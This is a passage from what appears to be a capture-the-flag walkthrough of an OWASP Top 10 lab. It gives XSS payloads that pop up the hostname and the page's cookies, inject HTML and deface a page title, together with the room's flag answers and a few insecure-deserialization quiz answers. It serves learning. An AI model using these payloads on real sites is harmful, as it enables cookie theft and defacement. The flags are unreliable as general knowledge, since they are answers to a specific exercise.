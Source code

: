 ### On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
```
<script>alert(window.location.hostname)</script>
```
> *Answer:* ReflectiveXss4TheWin

### On the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.
```
<h1>Heading 1</h1>
```
> *Answer:* HTML_T4gs

### On the same page, create an alert popup box appear on the page with your document cookies.
```
<script>alert(document.cookie)</script>
```
> *Answer:* W3LL_D0N3_LVL2

### Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker';</script>
```
> *Answer:* websites_can_be_easily_defaced_with_xss


<br><br>
# [Severity 8] Insecure Deserialization

### Who developed the Tomcat application?
> *Answer:* The Apache Software Foundation

### What type of attack that crashes services can be performed with insecure deserialization?
> *Answer:* Denial of Service


<br><br>
# [Severity 8] Insecure Deserialization - Objects

### Select the correct term of the statement:
> *Answer:* B) A Behaviour


<br><br>
# [Severity 8] Insecure Deserialization - Deserialization
